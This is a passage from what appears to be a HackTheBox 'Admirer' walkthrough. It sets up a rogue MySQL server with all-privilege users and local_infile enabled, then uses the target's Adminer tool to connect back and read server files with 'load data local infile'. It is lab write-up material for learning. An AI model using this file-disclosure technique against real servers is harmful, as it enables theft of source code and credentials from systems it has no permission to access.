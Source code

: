 sudo apt update
sudo apt install -y wget
wget https://dev.mysql.com/get/mysql-apt-config_0.8.15-1_all.deb
sudo dpkg -i mysql-apt-config_0.8.15-1_all.deb
ubuntu bionic

sudo apt update
sudo apt install mysql-community-server

sudo nano /etc/mysql/mysql.conf.d/mysqld.cnf
+ bind-address    = 0.0.0.0

sudo systemctl enable --now mysql
systemctl status mysql
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/8_adminer.png" width="500"/>
</p>


```
mysql -u root -p
mysql> create database admirer;
mysql> use admirer;
mysql> create table main(id INT(10));
mysql> SET GLOBAL local_infile=1; (so we can search for files)
```

Once we have the database up, we will go to the website and place our IP and credentials, which will make the server to call us back to retrieve the database.

If you get an error on login like this one:

```Host '10.10.10.187' is not allowed to connect to this MySQL server```

You can check out this [StackOverflow post](https://stackoverflow.com/questions/1559955/host-xxx-xx-xxx-xxx-is-not-allowed-to-connect-to-this-mysql-server) telling you about a security measure by default, and remember that is not a great idea to have this kind of users with this kind of privileges open to the internet _0.0.0.0_

```
mysql> CREATE USER 'kashmir'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON *.* TO 'kashmir'@'localhost'
    ->     WITH GRANT OPTION;
mysql> CREATE USER 'kashmir'@'%' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON *.* TO 'kashmir'@'%'
    ->     WITH GRANT OPTION;
```

Once we have all set up, login:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/9_admirer_local.png" width="500"/>
</p>

With the code explained in this [website](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) we can perform the file disclosure. By placing the file we want and the table we have created, we can retrieve the file. 

```
load data local infile '../index.php'
into table main
fields terminated by "/n"
```

```
